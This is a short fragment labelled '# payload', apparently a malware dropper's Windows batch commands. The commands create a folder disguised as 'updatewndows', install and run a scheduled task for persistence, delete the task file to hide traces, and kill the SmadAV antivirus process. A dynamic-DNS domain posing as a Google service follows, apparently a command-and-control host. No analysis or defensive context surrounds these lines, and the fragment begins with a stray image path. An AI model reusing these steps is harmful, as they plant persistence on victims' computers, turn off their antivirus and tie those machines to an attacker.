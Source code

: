 # payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update

taskkill /F /IM SmadAV.exe


googleapp.bounceme.net
